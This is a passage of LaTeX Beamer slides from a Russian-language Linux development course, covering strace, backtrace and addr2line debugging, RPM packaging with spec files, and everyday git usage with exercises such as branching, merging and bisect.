[1]-  Done                    sleep 1

\end{verbatim}
\end{frame}

\begin{frame}[fragile]{strace usage examples: -c, -S}
\tiny
\begin{verbatim}
$ strace -c -S calls find /usr/share/doc/ > /dev/null 
% time     seconds  usecs/call     calls    errors syscall
------ ----------- ----------- --------- --------- ----------------
  1.77    0.000023           0      6417         1 fcntl
  1.85    0.000024           0      1992           close
 93.83    0.001216           1       982           getdents
  1.70    0.000022           0       982           newfstatat
  0.00    0.000000           0       520           fstat
  0.85    0.000011           0       511           openat
  0.00    0.000000           0        60           write
  0.00    0.000000           0        23           mmap
  0.00    0.000000           0        14           mprotect
  0.00    0.000000           0         9           open
  0.00    0.000000           0         8           read
  0.00    0.000000           0         6           brk
  0.00    0.000000           0         6           fadvise64
  0.00    0.000000           0         3           munmap
  0.00    0.000000           0         3         2 ioctl
  0.00    0.000000           0         2           rt_sigaction
  0.00    0.000000           0         2         1 futex
  0.00    0.000000           0         1           rt_sigprocmask
  0.00    0.000000           0         1         1 access
  0.00    0.000000           0         1           execve
  0.00    0.000000           0         1           uname
  0.00    0.000000           0         1           fchdir
  0.00    0.000000           0         1           gettimeofday
  0.00    0.000000           0         1           getrlimit
  0.00    0.000000           0         1           statfs
  0.00    0.000000           0         1           arch_prctl
  0.00    0.000000           0         1           set_tid_address
  0.00    0.000000           0         1           set_robust_list
------ ----------- ----------- --------- --------- ----------------
100.00    0.001296                 11551         5 total
\end{verbatim}
\end{frame}


}
\section{Просмотр списка вызовов функций (backtrace)}
\mode<all>{%%
%% 
\begin{frame}[fragile]
	\frametitle{Встроенные функции gcc}

	\begin{block}{Адрес возврата ({\tt gcc})}
		
		Встроенные в {\tt gcc} функции для получения адреса вызывающей функции:

	\begin{lstlisting}
void * __builtin_return_address (unsigned int level);
	\end{lstlisting}
	\end{block}

	\begin{block}{Пример}
	
	Добавить в функцию {\tt second()} код:

	\begin{lstlisting}
printf("Frame 0: %p\n",  __builtin_return_address(0));
printf("Frame 1: %p\n",  __builtin_return_address(1));
printf("Frame 2: %p\n",  __builtin_return_address(2));
printf("Frame 3: %p\n",  __builtin_return_address(3));
	\end{lstlisting}
	\end{block}

\end{frame}

\begin{frame}[fragile]
	\frametitle{{\tt addr2line}}

	\begin{block}{Перевод адреса в строку}
		{\tt addr2line <address>}

		\begin{itemize}
			\item {\tt -e filename} -- бинарный файл
			\item {\tt -f} -- показать имена функций 
			\item {\tt -i} -- для inline функций -- показывать первую не встроенную
			\item {\tt -C} -- нормальные имена для "искалеченных" (C++) функций
		\end{itemize}
	\end{block}

	\begin{block}{Упражнение}

		\begin{itemize}
			\item Вызвать {\tt addr2line}, передав туда адреса, полученные из {\tt \_\_builtin\_return\_address()}.
			\item Перекомпилировать с флагом {\tt -g}
			\item Повторить вызов {\tt addr2line}
		\end{itemize}

	\end{block}

\end{frame}

%\begin{frame}[fragile]
%	\frametitle{Пример}
%
%	\begin{block}{Вывод {\tt backtrace}}
%	\begin{verbatim}
%./backtrace() [0x400c3e]
%/lib64/libc.so.6(+0x350f0) [0x7fb5711450f0]
%./backtrace(fill_random_ascii_buffer+0x40) [0x400d11]
%./backtrace(main+0xc9) [0x400dfe]
%	\end{verbatim}
%
%	\end{block}
%	\begin{block}{Вызов {\tt addr2line}}
%	\begin{verbatim}
%addr2line -e backtrace -ifC 0x400c3e
%	\end{verbatim}
%
%	\end{block}
%
%\end{frame}

\begin{frame}[fragile]
	\frametitle{Добавим ошибку}

	\begin{block}{Ошибка}
	
	\begin{lstlisting}
void second (void) {
  char *buf;
  sprintf( buf, "Hello, world!\n");
}
	\end{lstlisting}
	\end{block}
	
\end{frame}
\begin{frame}[fragile]
  \frametitle{Обработчик}
	\begin{block}{И обработчик}
	\begin{lstlisting}
void sighandler( int signal) {
  printf("SIGSEGV received, exiting.\n");
  exit(1);
}
int main (void) {
  struct sigaction action;
  action.sa_handler = sighandler;
  action.sa_flags=0;
  sigemptyset(&action.sa_mask);
  sigaction (SIGSEGV, &action,NULL);
	\end{lstlisting}
	\end{block}

\end{frame}



\begin{frame}[fragile]
	\frametitle{BackTrace}

	\begin{block}{Backtrace}
		Список вызовов функций\footnote{{\tt backtrace\_symbols} -- может не работать при проблемах с памятью!}.

	\end{block}

	\begin{lstlisting}
#include <execinfo.h>

int backtrace (void **buffer, int size);
char ** backtrace_symbols (void *const *buffer, int size);
void backtrace_symbols_fd (void *const *buffer, int size, int fd);
	\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Пример использования}

	Для использования с {\tt GNU ld} линковать с опцией {\tt -rdynamic}.

	\begin{block}{Упражнение: вызов {\tt backtrace} (backtrace.c)}

	\begin{lstlisting}
void *trace[TRACEDEPTH];
size_t trace_size,  i;
char **trace_msg;
trace_size = backtrace(trace,  TRACEDEPTH);
trace_msg = backtrace_symbols( trace,  trace_size);

for( i=0; i<trace_size; i++) printf("%s\n",  trace_msg[i]);

free( trace_msg);

backtrace_symbols_fd( trace, trace_size, STDERR_FILENO);
	\end{lstlisting}

	\end{block}
\end{frame}


}

\chapter{Профилирование}
\mode<all>{\input{../../slides/profile/general}}
\section{Gprof}
\mode<all>{\input{../../slides/profile/gprof}}
\section{Профилирование в valgrind}
\mode<all>{\input{../../slides/profile/valgrind-profile}}
\section[oprofile]{Статистическое профилирование в oprofile}
\mode<all>{\input{../../slides/profile/oprofile}}
\section{Анализ тестового покрытия}
\mode<all>{\input{../../slides/profile/gcov}}

\chapter{Пакетирование}
\section{Введение}
\mode<all>{\begin{frame}{Сетевая подсистема Linux}

	\begin{block}{Cетевой интерфейс}

		Сетевой интерфейс в Linux -– это абстрактный \alert{именованный} объект,  используемый для передачи 
		данных через некоторую линию связи без привязки к ее (линии связи) реализации.
	\end{block}
\end{frame}

\begin{frame}{Сетевая подсистема Linux}

	\center\includegraphics[width=0.9\textwidth]{../../slides/networking/06-netstack.png}

\end{frame}


}
\section{RPM}
\mode<all>{\begin{frame}
%damn tilde, best that i found
\def~{$\sim$}
	\frametitle{Подготовка окружения для сборки}	
			\begin{itemize}
				\item {\tt rpmdevtools} -- разные полезные помощники
				\item {\tt rpmdev-setuptree} -- создает структуру каталогов
				\item {\tt ~/.rpmmacros} -- информация о пакетировщике, локальные
			\end{itemize}			
				\begin{table}
					\begin{tabular}{l | l | l }
					Каталог & Макрос & Описание\\
					\hline
					~/RPM/SPECS/ & \%\_specdir & Сборочные .spec файлы\\
					~/RPM/SOURCES/ & \%\_sourcedir & Исходные архивы и патчи\\
					\hline
					~/RPM/BUILD/ & \%\_builddir	& Сборка\\		
					~/RPM/BUILDROOT/ & \%\_buildrootdir & Установка\\
					\hline
					~/RPM/RPMS/ & \%\_rpmdir & Собранные .rpm\\
					~/RPM/SRPMS/ & \%\_srcrpmdir & ``Собранный'' .srpm \\
					\end{tabular}
				\end{table}			
\end{frame}

\begin{frame}
\def~{$\sim$}
\frametitle{Пример 0: Hello, World!}

	\begin{block}{Упражнение: hello.spec}
		\begin{itemize}
			\item Скопировать файл описания сборки {\tt hello.spec} в {\tt ~/RPM/SPECS/}
			\item Скопировать файл c исходным кодом в {\tt ~/RPM/SOURCES/}
			\item Собрать пакет с помощью {\tt rpmbuild -ba ~/RPM/SPECS/hello.spec}
			\item Посмотреть получившуюся файловую структуру {\tt find ~/RPM/}
		\end{itemize}
	\end{block}

\end{frame}

\begin{frame}
	\frametitle{Шаги сборки}
	
			\begin{table}
				\begin{tabular}{l | l | l | l }
				Шаг & Чтение & Запись & Описание \\
				\hline 
				\%prep & \%\_sourcedir & \%\_builddir & Подготовка\\
				\%build & \%\_builddir & \%\_builddir & Сборка (configure, make)\\
				\%install & \%\_builddir & \%\_buildrootdir & Установка (make install)\\
				\%check &	\%\_builddir & \%\_builddir & Проверка (make test)\\
				\hline 
				bin & \%\_buildrootdir	&\%\_rpmdir & Упаковка RPM\\
				src & \%\_sourcedir & \%\_srcrpmdir & Упаковка SRPM\\
				\end{tabular}
			\end{table}
\end{frame}

\begin{frame}
	\frametitle{Структура spec-файла}
	\begin{itemize}
		\item Тэги -- {\tt Tag: value}
		\begin{itemize}
		\item Все из открытого шаблона .spec файла
		\item Отсутствующие в шаблоне
			\begin{itemize}
			\item {\tt Patch0: } имя файла с патчем
			\item {\tt BuildArch/ExcludeArch/ExclusiveArch: } архитектура (noarch)
			\item {\tt BuildRoot: } BUILDROOT каталог устарело
			\end{itemize}
		\item Зависимости
			\begin{itemize}
			\item {\tt BuildRequires:}
			\item {\tt Requires:}
			\item {\tt Provides:}
			\item {\tt Conflicts:}
			\item {\tt Obsoletes:}
			\item {\tt AutoReqProv: (0|1)}
			\end{itemize}
		\end{itemize}
	\end{itemize}
\end{frame}

\begin{frame}
	\frametitle{Структура spec-файла}

	\begin{itemize}
		\item Секции --  {\tt \%prep, \%build, \%install, \%check, \%files, \%changelog} 
		\item Макросы -- {\tt \%define FOO bar} 
		\item Скриптлеты, выполняемые в различных условиях\\
			{\tt (pre-,post-)install, uninstall, trigger}
		\item Подпакеты -- {\tt \%package}
		\item Условности -- {\tt \%ifarch ARCH\_NAME, \%if TRUE\_OR\_FALSE}
	\end{itemize}
	\begin{block}{Hint:}
		 {\tt rpm -\-showrc }
	\end{block}
\end{frame}

\begin{frame}
	\frametitle{Пример 1: Hello, World!}

	\begin{block}{Упражнение: hello.spec}
		\begin{itemize}
			\item Собрать пакет с помощью {\tt rpmbuild -ba hello.spec}
			\item Посмотреть список зависимостей {\tt rpm -qRp hello*.rpm}
			\item Установить полученный пакет
			\begin{itemize}
				\item {\tt apt-cache dotty hello > hello.dot}
				\item {\tt dot -Tpng hello.dot -Gdpi=300 -o hello.png}
			\end{itemize}
			\item Удалить исходники и spec-файл
			\item Пересобрать пакет из SRPM {\tt rpmbuild -{}-rebuild *.src.rpm}
		\end{itemize}
	\end{block}

	\pause

	\begin{block}{Упражнение: расширяем функционал}
		Добавить компиляцию, установку и пакетирование для CPP-примера.
	\end{block}

\end{frame}


\begin{frame}
	\frametitle{Разработка и использование в реальной системе}
	
	\begin{block}{Build-time vs Run-time}

		\begin{enumerate}
			\item Не все, что нужно во время компиляции, должно быть установлено в конечной системе.
			\item Не все, что нужно для работы программы, необходимо устанавливать на сборочной системе.
		\end{enumerate}
	\end{block}
	\begin{block}{Чистое сборочное окружение}
		\begin{itemize}
			\item Воспроизводимость сборки 
			\item Контроль зависимостей
			\item Контроль автоматически "подхваченных" зависимостей
		\end{itemize}
	\end{block}
\end{frame}

\begin{frame}
	\frametitle{Версии}

	\Large{Чтение правил дистрибутива строго обязательно!}
	
	Hint: {\tt rpmdev-vercmp (rpmdevtools)}
	\begin{block}{ Версия -- составная}
		{\tt \%name-\%epoch:\%version-\%release}
		\begin{itemize}
			\item {\tt Name: == \%name}
			\item {\tt Epoch: == \%epoch}
			\item {\tt Version: == \%version}
			\item {\tt Release: == \%release}
			\begin{itemize}
				\item Release:
				\item \%\{?dist\} tag
				\item rebuild number -- автоматически (при использовании нормальных билд-систем)
			\end{itemize}
		\end{itemize}
	\end{block}

\end{frame}


\begin{frame}
	\frametitle{Пример 2}

	\begin{block}{Подпакеты, скрипты, зависимости и обновление}
		На примере {\tt template.spec}:

		\begin{itemize}
			\item Собрать пакет с помощью {\tt rpmbuild -ba template.spec}
			\item Посмотреть список зависимостей {\tt rpm -qRp template*.rpm}
			\item Установить полученные пакеты
			\item Изменить версию, пересобрать и обновить в системе
			\item Построить дерево зависимостей
			\item Удалить полученные пакеты
		\end{itemize}
	\end{block}
\end{frame}

%\begin{frame}
%	\frametitle{Задача на дом: Пакетируем linking}

%	\begin{block}{Задача:}
%		Создать и установить пакеты для примера с созданием библиотек
%		и их использования из предыдущих лекций.
%	\end{block}

%	Hint: libtestA, libtestB, libtestA-devel, libtestB-devel, mainpkg

%\end{frame}

\begin{frame}
	\frametitle{Задача на дом}

	\begin{block}{Пакетируем архиватор}
		Создать RPM и SRPM пакеты для своего архиватора
	\end{block}

\end{frame}
}

\chapter{Системы контроля версий}
\section{Введение}
\mode<all>{\begin{frame}{Сетевая подсистема Linux}

	\begin{block}{Cетевой интерфейс}

		Сетевой интерфейс в Linux -– это абстрактный \alert{именованный} объект,  используемый для передачи 
		данных через некоторую линию связи без привязки к ее (линии связи) реализации.
	\end{block}
\end{frame}

\begin{frame}{Сетевая подсистема Linux}

	\center\includegraphics[width=0.9\textwidth]{../../slides/networking/06-netstack.png}

\end{frame}


}
\section[SVN]{Subversion}
\mode<all>{\input{../../slides/vcs/svn}}
\section{Git}
\mode<all>{\begin{frame}
 \frametitle{Основные команды git}
\end{frame}

\begin{frame}
	\frametitle{Создание нового репозитория git}
	\begin{itemize}
		\item git init [-{}-bare]
		\item git add file1 file2 file3
		\item git commit -m "First revision"
	\end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Создание локальной копии репозитория git}
	\begin{itemize}
		\item git clone <url> 
	\end{itemize}

	\begin{verbatim}
git clone ~/work/linux_courses 
	\end{verbatim}

	\begin{verbatim}
git clone git://github.com/d4s/linux_courses.git
	\end{verbatim}

\end{frame}

\begin{frame}[fragile]
	\frametitle{Кто автор?}
	\begin{itemize}
		\item git config [-{}-list] [-{}-add] [-{}-get] [-{}-set] $\dots$
	\end{itemize}

	\begin{verbatim}
git config --local --add user.name "Denis Pynkin"
git config --local --add user.email "denis_pynkin@epam.com"
git config --local --list
	\end{verbatim}

\end{frame}


\begin{frame}[fragile]
	\frametitle{Отслеживание множества копий репозитория git}
	\begin{itemize}
		\item git remote [<cmd> [opts]]
	\end{itemize}

	\begin{itemize}
		\item git remote add <name> <url>
		\item git remote del <name>
		\item git remote show <name>
		\item git remote update
	\end{itemize}

	\begin{verbatim}
git remote add github git://github.com/d4s/linux_courses.git 
	\end{verbatim}

	\begin{block}{Задача}
		Добавить репозиторий соседа для отслеживания.

		Hint: доcтуп через ssh (ip:/path/to/repository)
	\end{block}

\end{frame}


\begin{frame}[fragile]
	\frametitle{Checkout}

	\begin{itemize}
		\item git checkout <revision> [ -{}- path]
	\end{itemize}

	\begin{itemize}
		\item "Перемещение" по коммитам и не только
		\item Восстановление файлов
	\end{itemize}

	\begin{verbatim}
git checkout HEAD -- file
	\end{verbatim}

\end{frame}

\begin{frame}[fragile]
	\frametitle{Ежедневные команды}

	Скачать-закачать изменения:
	\begin{itemize}
		\item git pull
		\item git fetch
		\item git push [-{}-all] [-{}-tags]
	\end{itemize}

	Полезные мелочи:
	\begin{itemize}
		\item git log
		\item git status
		\item git tag <name> [-m "comment"]
		\item git diff <from> <to>
		\item git stash [pop]
	\end{itemize}

\end{frame}

\begin{frame}[fragile]
	\frametitle{Бранчи}

	Создание:

	\begin{itemize}
		\item git branch <old> <newname>
		\item git checkout <rev> -B <branchname> 
	\end{itemize}

	Удаление:

	\begin{itemize}
		\item git branch -D <name>
	\end{itemize}

	Переименование:

	\begin{itemize}
		\item git branch -M <oldname> <name>
	\end{itemize}

\end{frame}


\begin{frame}[fragile]
	\frametitle{Упражнение: бранчуемся}


	\begin{block}{Задача}
		\begin{itemize}
			\item Создать бранч {\tt my}
			\item В бранче {\tt my} изменить любой файл в директории {\tt epam/examples}
			\item Сделать коммит
			\item Обновить в локальной копии состояние репозитория соседа
			\item Создать бранч {\tt neigh}, соответствующий бранчу {\tt my} соседа
		\end{itemize}
	\end{block}

\end{frame}


\begin{frame}[fragile]
	\frametitle{Merge, rebase и cherry-pick}

	\begin{itemize}
		\item git merge [-s <strategy>] <rev>
		\item git rebase <rev> 
		\item git cherry-pick <rev> 
	\end{itemize}

	Merge:

	\begin{verbatim}
      A---B---C topic          A---B---C topic
     /                        /         \
D---E---F---G master     D---E---F---G---H master
	\end{verbatim}

	Rebase:

	\begin{verbatim}
      A---B---C topic                 A'--B'--C' topic
     /                               /         
D---E---F---G master    D---E---F---G master
	\end{verbatim}

\end{frame}


\begin{frame}[fragile]
	\frametitle{Упражнение: слияние}

		   
	\begin{block}{Задача}
		\begin{itemize}
			\item Добавить изменения соседа в свой бранч c помощью {\tt cherry-pick} 
			\item Запустить {\tt gitk}
			\item Сделать {\tt merge} с бранчем соседа
			\item Запустить {\tt gitk}
		\end{itemize}
	\end{block}
\end{frame}


\begin{frame}[fragile]
	\frametitle{Упражнение: найти ''гаденыша''}

	Понадобится скрипт {\tt cutter.sh} и любая книга в txt формате.

	\begin{verbatim}
cat book.txt | sh cutter.sh
	\end{verbatim}

	Задача: найти -- кто и в каком коммите испортил книгу фразой:
	\begin{verbatim}
Some anonymous crap from nobody :-E~~~
	\end{verbatim}
	
	\begin{block}{Вопрос}
		\Large{KAK ?}
	\end{block}
\end{frame}

\begin{frame}
	\frametitle{git bisect}

	\begin{itemize}
		\item git bisect start [<bad> [<good>...]
		\item git bisect good <last known commit>
		\item git bisect bad
		\item git bisect good
		\item git bisect skip
		\item git bisect reset
		\item git bisect log
		\item git bisect replay
			\pause
		\item git bisect run <command>
	\end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{blame}

	Метод попроще:

	\begin{itemize}
		\item git blame 
	\end{itemize}

	\begin{verbatim}
git blame -L 1224, 1224 -- text.txt
	\end{verbatim}
	
\end{frame}

\begin{frame}[fragile]
	\frametitle{Взаимодействуем с upstream}

	Создать серию патчей:
	\begin{itemize}
		\item git format-patch <ref>
	\end{itemize}

	\begin{verbatim}
git format-patch HEAD~5
	\end{verbatim}

	Применить серию патчей:
	\begin{itemize}
		\item git am <mbox|mdir|files>
	\end{itemize}
\end{frame}

}

\part*{Информация}

Актуальная версия исходников:\\
\url{https://github.com/epam-llpd/linux_courses}

Актуальная версия скомпилированных документов:\\
\url{https://yadi.sk/d/S4HA4z6lqdMNQ}

\bigskip

\begin{enumerate}
		\item Денис Пынькин
		\item Юрий Адамов
		\item Павел Корнелюк
		\item Викентий Лапа
		\item Евгений Рыбак
		\item {\it Здесь может быть Ваша фамилия}
\end{enumerate}

\end{document}
